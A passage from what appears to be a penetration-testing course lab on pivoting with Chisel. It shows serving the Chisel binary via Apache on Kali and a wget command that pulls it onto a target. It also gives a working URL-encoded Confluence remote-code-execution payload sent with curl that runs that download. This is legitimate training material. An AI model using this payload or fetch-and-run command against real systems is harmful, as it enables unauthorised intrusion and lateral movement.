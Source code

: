 Let's get the Chisel server up and running on our Kali machine. In the [usage guide](https://github.com/jpillora/chisel#usage), we find the **\--reverse** flag. Starting the Chisel server with this flag will mean that when the client connects, a SOCKS proxy port will be bound on the server.

Before we start the server, we should copy the Chisel client binary to CONFLUENCE01. The Chisel server and client are run from the same binary, they're just initialized with either _server_ or _client_ as the first argument.

If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the [Chisel Github releases page](https://github.com/jpillora/chisel/releases).

In this case, both CONFLUENCE01 and our Kali machine are _amd64_ Linux machines. That means we can try to run the same **chisel** binary we have on our Kali machine on CONFLUENCE01.

To get the Chisel binary onto CONFLUENCE01, we can leverage the injection to download it from our Kali machine over HTTP. We can serve the **chisel** binary using Apache. In order to do this, we must first copy the Chisel binary to our Apache2 server's webroot directory.

```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ 
```

> Listing 1 - Copying the Chisel binary to the Apache2 server folder.

We can then make sure that Apache2 is started on our Kali machine using **systemctl**.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

> Listing 2 - Starting Apache2.

Next, we will build the **wget** command we want to run through the injection on CONFLUENCE01. This command will download the **chisel** binary to **/tmp/chisel** and make it executable:

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

> Listing 3 - The Wget payload we use to download the Chisel binary to /tmp/chisel on CONFLUENCE01 and make it executable.

Next, we'll format this command to work with our **curl** Confluence injection payload.

As before, you can modify the specific parts of the URL-encoded RCE payload that you need to, rather than trying to build a new payload from scratch, to avoid formatting difficulties.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
